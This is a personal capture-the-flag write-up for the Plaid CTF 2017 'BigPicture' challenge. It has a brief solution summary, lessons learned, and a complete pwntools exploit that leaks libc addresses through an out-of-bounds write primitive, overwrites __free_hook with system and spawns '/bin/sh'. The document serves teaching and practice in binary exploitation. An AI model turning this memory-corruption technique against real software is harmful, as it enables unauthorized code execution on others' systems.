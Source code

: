 ```yaml
---
title: "BigPicture | Plaid CTF 2017"
tags: ["pwn", "stack_overflow"]
points: 200
solves: 67
---
```


I wasn't able to solve this challenge during the CTF, but I decided read a writeup and try again! In this post I'll share what I learned.

## Solution summary

I based my exploit on this [bigpicture writeup](https://amritabi0s.wordpress.com/2017/04/24/plaid-ctf-2017-bigpicture-write-up). The write up explains everything in more detail, go read it!

The exploit steps were:
1. Find the `libc offset` in relation to our buffer
2. Find the `libc base` address by leaking some value in the libc data section which contains a pointer to somewhere else in the libc (I used `__memalign_hook`)
3. Overwrite `__free_hook` with a pointer to `system`
4. Write `"/bin/sh\x00"` in the buffer (since the free is going to be called on that buffer)
5. Execute the `quit` command and the `free(buf)` call should instead call `system("/bin/sh")` and spawn a shell


## What I learned for the next CTF
1. If we allocate a large enough chunk, that chunk will not be on the heap section, but instead the malloc will call `mmap` and (at least for this case) the address will be **relative to the LIBC_BASE address**, allowing you to find where the libc is in relation to the chunk allocated.
2. I also learned that you can find the libc base address by looking at some pointers in the libc data section, (I assumed it was possible, but had never tried it before)
3. As I had previously learned the libc hooks (malloc_hook, free_hook..) are a great way to redirect code execution if you find a way to overwrite them

# Exploit
```python
#!/usr/bin/python
from pwn import *

TESTING_LOCAL = True

if TESTING_LOCAL:
    # Libc offsets
    __memalign_hook_OFFSET = 0x398ae0
    __free_hook_OFFSET     = 0x39a788
    SYSTEM_OFFSET          = 0x3f460

    # Ofsets related to the buffer
    LIBC_OFFSET_TO_BUF = -0x497010
    __free_hook_OFFSET_TO_BUF     = LIBC_OFFSET_TO_BUF + __free_hook_OFFSET
    __memalign_hook_OFFSET_TO_BUF = LIBC_OFFSET_TO_BUF + __memalign_hook_OFFSET
    __memalign_hook_content_TO_LIBC_OFFSET = 0x7c240
else:
    pass

def go():
    if TESTING_LOCAL == True:
        p = process("./bigpicture")
    else:
        p = remote("bigpicture.chal.pwning.xxx", 420)

    WIDTH  = 1024
    HEIGHT = 1024
    p.sendlineafter("big? ", "%d x %d" % (WIDTH, HEIGHT))

    def get_val(offset):
        return [offset/HEIGHT, offset%HEIGHT]

    def plot(x, y, c):
        p.sendlineafter(">", " %d , %d , %c " % (x, y, c), )

    def leak_byte(offset):
        val = get_val(offset)
        plot(val[0], val[1], "\x00")
        res = p.recvuntil("\n", timeout = 2)
        if "overwriting" not in res:
            return "\x00"
        else:
            return res.split("overwriting ")[1].split("!")[0]

    def write_byte(offset, c):
        val = get_val(offset)
        plot(val[0], val[1], c)

    # Check if the offset is write, by checking whether we find the string "ELF" at that location
    check_if_we_got_libc = leak_byte(LIBC_OFFSET_TO_BUF+1) + leak_byte(LIBC_OFFSET_TO_BUF+2) + leak_byte(LIBC_OFFSET_TO_BUF+3)
    assert check_if_we_got_libc == "ELF"
    log.success("Found libc base at offset: %s" % hex(LIBC_OFFSET_TO_BUF))

    leaked_memallign_content = leak_byte(__memalign_hook_OFFSET_TO_BUF+0) + leak_byte(__memalign_hook_OFFSET_TO_BUF+1) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+2) + leak_byte(__memalign_hook_OFFSET_TO_BUF+3) + \
                               leak_byte(__memalign_hook_OFFSET_TO_BUF+4) + leak_byte(__memalign_hook_OFFSET_TO_BUF+5)
    leaked_memallign_content = u64(leaked_memallign_content.ljust(8, "\x00"))
    LIBC_BASE = leaked_memallign_content - __memalign_hook_content_TO_LIBC_OFFSET

    # Leak meamallign_hook content so we can locate the LIBC_BASE
    log.info("Found memallign_hook content equals " + hex(leaked_memallign_content))
    assert LIBC_BASE & 0xfff == 0 # Ensure the last 12bits are 0. If not it surely is not the libc base.
    log.success("Found libc base at " + hex(LIBC_BASE))

    SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
    log.info("SYSTEM at: " + hex(SYSTEM_ADDR))

    # Ovewrite the __free_hook with system and confirm it worked
    SYSTEM_ADDR_packed = p64(SYSTEM_ADDR)
    write_byte(__free_hook_OFFSET_TO_BUF+0, SYSTEM_ADDR_packed[0])
    write_byte(__free_hook_OFFSET_TO_BUF+1, SYSTEM_ADDR_packed[1])
    write_byte(__free_hook_OFFSET_TO_BUF+2, SYSTEM_ADDR_packed[2])
    write_byte(__free_hook_OFFSET_TO_BUF+3, SYSTEM_ADDR_packed[3])
    write_byte(__free_hook_OFFSET_TO_BUF+4, SYSTEM_ADDR_packed[4])
    write_byte(__free_hook_OFFSET_TO_BUF+5, SYSTEM_ADDR_packed[5])
    write_byte(__free_hook_OFFSET_TO_BUF+6, SYSTEM_ADDR_packed[6])
    write_byte(__free_hook_OFFSET_TO_BUF+7, SYSTEM_ADDR_packed[7])

    leaked_free_hook = leak_byte(__free_hook_OFFSET_TO_BUF+0) + leak_byte(__free_hook_OFFSET_TO_BUF+1) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+2) + leak_byte(__free_hook_OFFSET_TO_BUF+3) + \
                       leak_byte(__free_hook_OFFSET_TO_BUF+4) + leak_byte(__free_hook_OFFSET_TO_BUF+5)
    leaked_free_hook = u64(leaked_free_hook.ljust(8, "\x00"))
    assert leaked_free_hook == SYSTEM_ADDR
    log.success("Successfully written free_hook with system's addr")

    for i, c in enumerate("/bin/sh"):
        write_byte(i, c)

    p.sendline("quit")
    p.clean()
    p.sendline("echo HELLO")
    assert p.recvuntil("HELLO") == "HELLO"
    log.success("We got a shell ;)!")

    p.interactive()

go()
```